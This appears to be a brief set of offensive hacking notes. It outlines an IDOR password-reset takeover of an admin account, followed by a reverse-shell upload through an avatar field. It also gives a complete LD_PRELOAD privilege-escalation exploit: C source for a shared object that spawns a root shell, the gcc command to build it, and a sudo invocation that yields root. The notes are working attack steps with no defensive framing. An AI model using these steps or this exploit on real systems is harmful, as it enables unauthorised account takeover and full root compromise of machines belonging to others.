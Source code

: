 #### IDOR reset admin password

```
* Register new account
* sign-in with new account
* Intercept reser user with Burpsuite
* send to repeater
* Change new password and confirm with username of admin account
* sign-in with admin account
* upload revershell (avatar upload in profile section)
```

#### env_keep += LD_PRELOAD (Linux Priv Esc)

* Generate a C-program file inside /tmp directory
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
* Then save it as shell.c inside /tmp.
* Compile the program
```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

```
sudo LD_PRELOAD=/tmp/shell.so <the_binary_file_we_can_run_as_root>
# whoami
root
```
